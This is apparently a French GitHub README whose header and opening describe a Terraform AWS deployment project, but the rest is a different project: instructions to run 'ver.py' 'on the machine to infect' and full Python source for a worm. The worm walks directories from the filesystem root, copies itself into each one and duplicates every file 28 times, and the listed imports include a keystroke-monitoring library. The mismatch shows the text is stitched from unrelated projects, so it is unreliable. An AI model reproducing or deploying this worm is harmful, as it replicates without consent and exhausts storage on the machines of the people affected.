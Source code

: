 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>


---


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infra complète aws avec terrafom, les prérequis sont :

- un module pour créer une instance ec2 utilisant la dernière version de ubuntu
- un module pour créer un volume ebs dont la taille sera variabilisée
- un module pour créer une security qui ouvrira le 80 et 443
- un dossier app qui va utiliser les 4 modules pour déployer une ec2


### Pré-requis

Il faut executer le fichier ver.py et avoir un dossier test ou le vers pourras ce dupliquer.


### Installation

* _Pour_ _Windows_ :

  Pour installer python il faut se rendre sur https://www.python.org/downloads/

* _Pour_ _Ubuntu_ :

  Pour installer python il faut utiliser la commande sudo apt-get install python

## Démarrage

Pour lancer le logiciel il faut juste taper *Python3 ver.py* sur la machine a infecter


## Explication du code 


* _Pour_ _ver.py_ :

--------------------------Les imports---------------------

os fournit une façon portable d'utiliser les fonctionnalités dépendantes du système d'exploitation

pynput permet de contrôler et de surveiller les périphériques d'entrée.

datime permet fournir différentes fonctions liées au temps 

logging permet de gerer les logs


----------------------Traitement------------------------

Tout d'abords nous avons la class worm pour la création de notre vers , le ver ce copy et ce replique dans un dossier test et modifie les extensions des fichier copié

```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
